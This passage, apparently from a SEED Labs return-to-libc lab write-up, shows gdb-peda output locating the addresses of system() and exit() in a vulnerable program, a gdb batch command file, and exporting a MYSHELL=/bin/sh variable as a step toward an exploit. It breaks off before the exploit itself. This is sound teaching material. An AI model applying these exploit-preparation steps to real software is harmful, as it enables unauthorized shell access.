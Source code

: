 ```console
   0x5655630a <foo+58>: mov    ebx,DWORD PTR [ebp-0x4]
   0x5655630d <foo+61>: leave  
   0x5655630e <foo+62>: ret    
=> 0x5655630f <main>:   endbr32 
   0x56556313 <main+4>: lea    ecx,[esp+0x4]
   0x56556317 <main+8>: and    esp,0xfffffff0
   0x5655631a <main+11>:        push   DWORD PTR [ecx-0x4]
   0x5655631d <main+14>:        push   ebp
[------------------------------------stack-------------------------------------]
0000| 0xffffd60c --> 0xf7de1ee5 (<__libc_start_main+245>:       add    esp,0x10)
0004| 0xffffd610 --> 0x1 
0008| 0xffffd614 --> 0xffffd6a4 --> 0xffffd7d0 ("/home/seed/Documents/return2libc/retlib")
0012| 0xffffd618 --> 0xffffd6ac --> 0xffffd7f8 ("SHELL=/bin/bash")
0016| 0xffffd61c --> 0xffffd634 --> 0x0 
0020| 0xffffd620 --> 0xf7faa000 --> 0x1e6d6c 
0024| 0xffffd624 --> 0xf7ffd000 --> 0x2bf24 
0028| 0xffffd628 --> 0xffffd688 --> 0xffffd6a4 --> 0xffffd7d0 ("/home/seed/Documents/return2libc/retlib")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x5655630f in main ()
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e08420 <system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xf7dfaf80 <exit>
```

Or we can also put these <code>gdb</code> commands into a file and then ask <code>gdb</code> to execute the commands from this file:

```console
$ cat gdb_command.txt
break main
run
p system
p exit
quit
$ gdb -q -batch -x gdb_command.txt ./retlib
```

## Task 2: Putting the shell string in the memory

Let us define a new shell variable <code>MYSHELL</code>, and let it contain the string "<code>/bin/sh</code>":

```console
$ export MYSHELL=/bin/sh
$ env | grep MYSHELL
MYSHELL=/bin/sh
```

The location of this variable in the memory can be found out easily using the following program:
